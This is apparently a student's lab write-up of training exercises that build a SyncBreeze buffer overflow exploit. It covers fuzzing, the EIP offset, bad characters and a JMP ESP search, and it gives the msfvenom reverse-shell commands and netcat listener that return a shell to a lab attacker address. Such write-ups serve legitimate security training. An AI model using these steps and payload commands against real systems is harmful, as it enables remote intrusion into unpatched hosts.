Exercises

# 11.1.1.2
## 1. Build the fuzzer and replicate the SyncBreeze crash.
### Start the SyncBreeze service on our Windows 10 client machine from the Services App

### We already know the username field is vulnerable, let's sample the network traffic by launching Wireshark. Filter 'tun0' -> 'host 192.168.214.0'

### Open a browser and og into SyncBreeze with invalid credentials
[http://192.168.214.10/login](http://192.168.214.10/login)



### On Wireshark, follow the TCP stream and look for the POST request to log in.
We are looking for a [FIN, ACK] response from the Windows client. Review the 3-way handshake


### Now replicate this HTTP communication by building a fuzzer script in Python.
[1_proof_of_concept.py](../../_resources/f26319784f4748cc86fdd7257a28fcc9.py)


### Now build a generation-based fuzzer that sends multiple HTTP requests with increasingly longer usernames. Here it is:
[2_fuzzer_username.py](../../_resources/bb4a67faa91f443d930049aad4b6332d.py)


### Start or restart SyncBreeze

### Check what port it's listening on with TCP Viewer

### Look for syncbrs.exe PID. In this example, the PID is 3884


### Right-click the Immunity Debuuger Icon -> Run as administrator

### The Immunity Debugger Launches. Attach by pressing File -> Attach

### Select the syncbreeze process. In this example, click on PID, then press Attach.

### We see the Syncbreeze service is attached but Paused.

### Press F9 to unpause.


### Run the generational-based fuzzer script. The script hangs once 900 bytes is reached.


### We see that SyncBreeze has crashed, with EIP 41414141 and the debuufer has paused

### This error message also pops up


## 2. Inspect the content of other registers and stack memory. Does anything seem to be directly influenced by the fuzzing input?

Yes, the ESP has 12 bytes written to it at a higher numbered address on the stack. It seems to be overrun with our command line argument of A's.

# 11.2.3.1
## 1. Write a standalone script to replicate the crash.

Here is the standalone script:
[3_replicate_crash.py](../../_resources/91541da6d1a14d4abde5a48d9924848f.py)


Here is the crash

## 2. Determine the offset within the input buffer to successfully control EIP.
### Run `msf-pattern_create -l 800`


### Update the script to use the msf-pattern_create string
[4_determine_offset.py](../../_resources/27cc4a21e212485199211e231aaabcc8.py)


### We see it has crashed SyncBreeze. The EIP is 42306412

### Use msf-pattern_offset to find the exact offset where the crash occurred. We see it occurs at 780 bytes
`msf-pattern_offset -l 800 -q 42306412`

## 3. Update your standalone script to place a unique value into EIP to ensure your offset is correct.
### We adjust the variables in the script with the expection of write all B's (42424242) to the EIP. Here is the script.
[5_verify_offset.py](../../_resources/0979d599aa104677b91e372ad67ef198.py)


Here is the crash output. The EIP points to 42424242


# 11.2.5.1
## 1. Repeat the required steps in order to identify the bad characters that cannot be included in the payload.
### Locate space for payload (shellcode). We will attempt to increase our buffer to 1500 bytes while still maintaining the same buffer overflow condition. Here is the code:
[6_placeholder_for_shellcode.py](../../_resources/7e7a2bf9a458401492711541e8a75013.py)


### Verify the crash points to our shellcode placeholder location (DDDD's)

### Start off with a script that holds all hex characters except 0x00, which has already been taken out because it is a known bad character.
Here is the script:
[7_check_bad_chars.py](../../_resources/5d72256c87ec4129b0042eb987c908c1.py)

### Verify the crash, then right-click the ESP and 'Follow in Dump'

We already know a bad character is 0x00. From this output, we see that 0x0a is another bad char

### Take out 0x0a from the script, and run again. The next bad char is 0x0d

### Take out 0x0d, and run again. The next bad char is 0x25.


### Take out 0x25, and run again. We see the next bad char is 0x26


### Take out 0x26, and run again. We see the next bad char is 0x2b

### Take out 0x2b, and run again. We see the next bad char is 0x3d

### Take out 0x3d, and run again. We see it run to FF without skipping any characters. There are no more bad chars!

### Here is the script without any bad chars
[7_check_bad_chars.py](../../_resources/e055f74761224eacba560377991a4f88.py)


The bad chars are: **x00\x0a\x0d\x25\x26\x2b\x3d**

## 2. Why are these characters not allowed? How do these bad hex characters translate to ASCII?

### ASCII control characters (e.g. backspace, vertical tab, horizontal tab, line feed etc), unsafe characters like space, \, <, >, {, } etc, and any character outside the ASCII charset is not allowed to be placed directly within URLs. 
Reference: https://www.urlencoder.io/learn/

0x00 → Null Character terminates strings. Non-printable
0x0a → Line Feed which terminates an HTTP field the same way as a carriage return. Non printable
0x0d → Carriage Return that signifies the end of an HTTP field (in this case username as part of HTTP POST request)

### The following printable characters are not allowed because they are reserved characters. The purpose of reserved characters is to provide a set of delimiting characters that are distinguishable from other data within a URI. URIs that differ in the replacement of a reserved character with its corresponding percent-encoded octet are not equivalent. Percent-encoding a reserved character, or decoding a percent-encoded octet that corresponds to a reserved character, will change how the URI is interpreted by most applications. 
Reference:  https://pretty-rfc.herokuapp.com/RFC3986#reserved

0x25 → Percent Sign (%)
0x26 → Ampersand (&)
0x2b → Plus sign (+)
0x3d → Equal sign (=)

Reference:

# 11.2.7.1
## 1. Locate the JMP ESP that is usable in the exploit.

We see the syncbrs.exe and libssp.dll has SEH, ASLR, and NXCompat disabled.
However, syncbrs.exe will always contain null characters because it loads at 0x004XXXXX address.

### We will use libssp.dll because its address range won’t always contain bad characters 0x10000000


### Find the opcode equivalent of JMP ESP using msf-nasm_shell commands. We see the code is FFE4


### Now use mona.py to find  an address. We will input the following line:
!mona find -s "\xff\xe4" -m "libspp.dll"

## 2. Update your PoC to include the discovered JMP ESP, set a breakpoint on it, and follow the execution to the placeholder shellcode.
### Here is the code with the JMP ESP added in
[8_eip_jmp_esp.py](../../_resources/6282db99fd1e46f0bfdbdb2b0a848bdb.py)



### The crash. EIP is 10090C83

# 11.2.9.1
## 1. Update your PoC to include a working payload.

Run msfvenom to create shellcode
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`


## 2. Attempt to execute your exploit without using a NOP sled and observe the decoder corrupting the stack.

Here is the code with shellcode but **no NOPs**
[9_add_shellcode_no_nops.py](../../_resources/c7efe8952a764ada995cf155ad722500.py)


The crash


## 3. Add a NOP sled to your PoC and obtain a shell from SyncBreeze.

Here is the code with a NOP sled
[9_add_shellcode_yes_nops.py](../../_resources/e08eb3cfc776474ca653e8fa74aa126c.py)

Start a Netcat listener on port 443
`sudo nc -lvnp 443`

We have a shell


# 11.2.10.1
## 1. Update the exploit so that SyncBreeze still runs after exploitation.

Change the shellcode to use the ExitThread
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.214 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"`


Here is the code
[10_exitThread.py](../../_resources/6d89d67cc9364da6a454cf73200197d0.py)


Start a netcat listener
`sudo nc -lvnp 443`

We have a shell


# 11.2.10.2 - Extra Mile
## In the Tools folder of your Windows VM, there are three applications called VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe, each containing a vulnerability. Associated Python proof of concept scripts are also present in the folder. Using the PoCs, write exploits for each of the vulnerable applications.

